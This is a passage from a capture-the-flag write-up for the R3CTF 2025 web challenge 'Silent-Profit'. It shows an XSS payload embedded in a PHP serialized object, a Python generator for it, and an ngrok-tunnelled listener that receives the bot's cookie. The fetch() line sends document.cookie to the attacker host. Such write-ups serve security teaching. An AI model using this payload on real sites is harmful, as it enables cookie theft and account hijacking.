 We now achieved XSS!

## Exploitation

Armed with above information, we can get the flag by:

- Setup our own HTTP server:

```shell
┌[siunam♥Mercury]-(~/ctf/R3CTF-2025/Web/Silent-Profit)-[2025.07.07|14:11:55(HKT)]
└> python3 -m http.server 8000 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

- Setup port forwarding with [ngrok](https://ngrok.com/):

```shell
┌[siunam♥Mercury]-(~/ctf/R3CTF-2025/Web/Silent-Profit)-[2025.07.07|14:12:46(HKT)]
└> ngrok tcp 8000           
[...]
Forwarding                    tcp://0.tcp.jp.ngrok.io:16499 -> localhost:8000                             
[...]
```

- Send the following serialized object string to the bot, which exfiltrate the `flag` cookie to our attacker server:

Payload generator:

```python
from urllib.parse import quote_plus

xssPayload = '<script>fetch(`//0.tcp.jp.ngrok.io:16499/?${document.cookie}`)</script>'

serializedObjectString = f'O:13:"SplFixedArray":1:{{s:{len(xssPayload)}:"{xssPayload}";N;}}'
print(f'Serialized object string: {serializedObjectString}')
print(f'Serialized object string (URL encoded): {quote_plus(serializedObjectString)}')
```

Serialized object string:

```shell
┌[siunam♥Mercury]-(~/ctf/R3CTF-2025/Web/Silent-Profit)-[2025.07.07|14:18:53(HKT)]
└> python3 solve.py
Serialized object string: O:13:"SplFixedArray":1:{s:71:"<script>fetch(`//0.tcp.jp.ngrok.io:16499/?${document.cookie}`)</script>";N;}
Serialized object string (URL encoded): O%3A13%3A%22SplFixedArray%22%3A1%3A%7Bs%3A71%3A%22%3Cscript%3Efetch%28%60%2F%2F0.tcp.jp.ngrok.io%3A16499%2F%3F%24%7Bdocument.cookie%7D%60%29%3C%2Fscript%3E%22%3BN%3B%7D
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/R3CTF-2025/images/Pasted%20image%2020250707142136.png)
